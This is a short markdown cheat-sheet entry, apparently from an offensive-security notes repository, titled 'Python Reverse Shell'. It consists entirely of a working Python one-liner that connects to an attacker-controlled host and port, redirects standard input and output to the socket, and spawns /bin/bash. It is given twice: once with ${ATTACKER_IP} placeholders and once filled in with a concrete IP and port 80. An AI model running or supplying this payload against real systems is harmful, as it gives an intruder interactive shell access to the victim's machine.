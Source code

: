 ## Python Reverse Shell

> Note: single quotes were avoided so that it can be wrapped in `'`${SHELL}`'`

Replace `${ATTACKER_IP}` and `${ATTACKER_LISTENER_PORT}` below:

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"${ATTACKER_IP}\",${ATTACKER_LISTENER_PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

e.g.

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.163\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```